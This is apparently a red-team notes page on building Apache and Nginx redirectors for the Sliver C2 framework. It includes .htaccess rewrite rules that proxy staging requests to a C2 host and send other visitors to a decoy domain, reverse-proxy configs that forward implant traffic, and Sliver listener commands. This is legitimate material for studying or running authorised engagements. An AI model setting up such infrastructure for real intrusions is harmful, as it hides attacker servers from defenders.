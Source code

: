 # Redirectors

Search Tag(s): #red-team-infrastructure #sliver #redirectors

TODO: Fill this information

## 01 - Apache2

### 1.1 - Config file

```
$ cat /etc/apache2/apache2.conf
<Directory /var/www/>
		Options Indexes FollowSymLinks
		AllowOverride All
		Require all granted
</Directory>
```

### 1.2 - .htaccess file config

TODO: Test the .htaccess file

`R=302` means redirect.

```
$ cat /var/www/html/.htaccess
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/stage$
RewriteRule ^.*$ http://<C2_IP>%{REQUEST_URI} [P]
RewriteRule ^.*$ http://<domain.com>/? [L,R=302]
$ chmod 644 /var/www/html/.htaccess
```

### 1.3 - HTTP

```
$ sudo a2enmod rewrite proxy proxy_http && \
sudo systemctl restart apache2
```

`$ sudo a2ensite 000-default.conf`

Here is the configuration.

```
$ cat /etc/apache2/sites-available/000-default.conf
<VirtualHost *:<C2_PORT>>
	# ServerName <C2_IP>
	# ServerAlias <C2_IP>
	DocumentRoot /var/www/html

	ProxyRequests Off
	ProxyPass / http://<C2_IP>:<C2_PORT>/
	ProxyPassReverse / http://<C2_IP>:<C2_PORT>/
</VirtualHost>
```

`$ sudo systemctl restart apache2`

`sliver > http -L <C2_IP> -l <C2_PORT> -d <redirector_IP>`

### 1.4 - HTTPS

- For HTTPS listener

```
$ sudo a2enmod ssl

$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /etc/apache2/ssl/private.key -out /etc/apache2/ssl/certificate.crt
```

---

```
$ sudo nano /etc/apache2/sites-available/default-ssl.conf
<IfModule mod_ssl.c>
    <VirtualHost *:<C2_PORT>>
        # ServerName <C2_IP>
        # ServerAlias <C2_IP>

        SSLEngine on
        SSLCertificateFile /etc/apache2/ssl/certificate.crt
        SSLCertificateKeyFile /etc/apache2/ssl/private.key

        ProxyPass / http://<C2_IP>:<C2_PORT>/
        ProxyPassReverse / http://<C2_IP>:<C2_PORT>/
    </VirtualHost>
</IfModule>
```

`$ sudo systemctl restart apache2`

`sliver > https -L <C2_IP> -l <C2_PORT> -d <redirector_IP>`

## 02 - Nginx

`$ cat /etc/nginx/sites-available/sliver_c2`

---

```
server {
    listen 80;
    # server_name < _ | C2_IP >;
    server_name _;

    location / {
        try_files $uri $uri/ @c2;
    }

    location @c2 {
        proxy_pass http://<C2_IP>:<C2_PORT>/;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}

server {
    listen 443 ssl;
    listen [::]:443 ssl http2;
    # server_name < _ | C2_IP >;
    server_name _;

    ssl_certificate /etc/nginx/ssl/nginx.crt;
    ssl_certificate_key /etc/nginx/ssl/nginx.key;

    location / {
        try_files $uri $uri/ @c2;
    }

    location @c2 {
        proxy_pass http://<C2_IP>:<C2_PORT>/;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

```
$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /etc/nginx/ssl/private.key -out /etc/nginx/ssl/certificate.crt

$ sudo ln -s /etc/nginx/sites-available/sliver_c2 /etc/nginx/sites-enabled/

$ sudo nginx -t

$ sudo service nginx restart
```

Once you've setup the redirectors properly. Refer to the [[Setting Up Redirectors and Firewall Rules|section for setting up a firewall rule to apply it]].